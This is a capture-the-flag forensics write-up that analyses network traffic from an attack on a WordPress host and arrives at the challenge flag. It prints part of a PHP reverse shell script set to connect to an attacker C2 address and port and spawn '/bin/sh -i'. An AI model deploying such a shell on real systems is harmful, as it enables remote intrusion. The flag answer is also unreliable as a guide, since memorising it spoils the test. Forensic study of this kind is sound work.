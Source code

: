 # WordPress - 4
[Medium]

Same file from WordPress - 1

Q1. What is the name of the function that the attacker tested the exploit with, and what is the name/version of the attacker's server?

Q2. What is the username that was logged on during the attack, including the domain?

Q3. The attacker attempted to upload a reverse shell. Mention the IP and port. What command posed an obstacle during the process of the reverse shell?

Flag Format `0xL4ugh{A1_A2_A3}`

Example: `0xL4ugh{functionName()_serverName/version_domain\username_IP:PORT_command}`

---

Solution:

Remember earlier, from 3, that RCE were sent by `192.168.204.1` and used `172.26.211.155` as the C2? 

Let's use them for filtering `((ip.src == 192.168.204.1) || (ip.dst == 192.168.204.1) || (ip.src == 172.26.211.155) || (ip.dst == 172.26.211.155)) && http`

![image](4_1.png)

There we go! Q1 answer: `phpinfo()_SimpleHTTP/0.6`

For Q2, let's take a look at the result from the packet that invoked `whoami`

![image](4_2.png)

Q2 answer: `desktop-2r3ar22\administrator`

Finally, for Q3, the retrieval of the reverse shell happened after invoking the `whomai` command. Since we saw earlier that if `wp_abspath` is the only parameter, it retrieved the payload from the C2.

![image](4_3.png)

```php
<?php


set_time_limit (0);
$VERSION = "1.0";
$ip = '172.26.211.155';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

-snip-
```

The original reverse shell script for this one can be found at https://github.com/xdayeh/Php-Reverse-Shell/blob/master/PHP-Reverse-Shell.php

![image](4_4.png)

Now we have the IP:PORT! `172.26.211.155:1234`

Now, what does the author mean about the `command` ?

The reverse shell script has the following `$shell = 'uname -a; w; id; /bin/sh -i';`

So maybe one or all of these failed? I decided to double-check the victim's `phpinfo()` from earlier

![image](4_5.png)

This runs on Windows! So it will immediately fail from the first command, which is `uname`.

Thefore, the flag is `0xL4ugh{phpinfo()_SimpleHTTP/0.6_desktop-2r3ar22\administrator_172.26.211.155:1234_uname}`







